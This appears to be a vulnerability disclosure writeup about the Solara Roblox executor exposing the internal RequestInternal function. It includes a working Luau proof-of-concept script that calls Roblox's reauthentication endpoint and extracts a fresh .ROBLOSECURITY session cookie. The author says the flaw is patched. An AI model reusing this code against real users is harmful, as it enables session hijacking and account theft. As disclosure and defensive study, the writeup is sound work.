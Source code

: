 # Solara Stealer PoC
Writeup on stealing roblox accounts with Solara

# Disclaimer
**This is now patched**.

# Introduction
[RequestInternal](https://robloxapi.github.io/ref/class/HttpService.html#member-RequestInternal) is a 'CoreScript' function in Roblox that allows the Roblox engine to interact with Roblox’s internal web APIs. This function is essential for interacting with Roblox's web API's as the user. This write-up will focus on its use in session hijacking, and other potential uses.

# Session Hijacking via Reauthentication
Under the "[Roblox authentication web API](https://auth.roblox.com/docs/index.html)", a feature exists under the name "logoutfromallsessionsandreauthenticate". It does exactly what the name suggests, it takes the input '.ROBLOSECURITY' session, invalidates it, then gives you a new one to reauthenticate with.

Now, with 'RequestInternal', you cannot use the function with a normal LocalScript, as if you could you could perform actions maliciously using the user's cookie(s). The issue, is that Solara, did not block this function for use in the execution, therefore the user using Solara is vulnerable to the exploitation of 'RequestInternal'.

# PoC of account hijacking
https://streamable.com/837cg4

# Example of Session Hijacking
```luau
-- httpservice
local httpService = game:GetService("HttpService")

-- data for the request
local data = {
    Url = "https://auth.roblox.com/v1/logoutfromallsessionsandreauthenticate", -- url for reauthentication
    Method = "POST", -- send a POST request
    Body = "{}" -- placeholder
}
-- this request will be sent with the user's cookies
local request = httpService:RequestInternal(data)

-- success is a boolean - whether or not the request was a success (?)
-- response is the dict of response data:
--[[
    response.Body: string
    response.Headers: table (dict)
    response.StatusCode: number
]]
    -- start the request
request:Start(function(success, response) 
    local headers = response.Headers -- get the response headers
    local cookie = headers["set-cookie"] -- get the cookies sent from the server
    local session = cookie:split(";")[1] -- get the raw cookie text without expiration shi

    print(session) -- output the reauthenticated session
end)
```

# Conclusion
Solara needs to disallow exploiters from being able to use the 'RequestInternal' function.
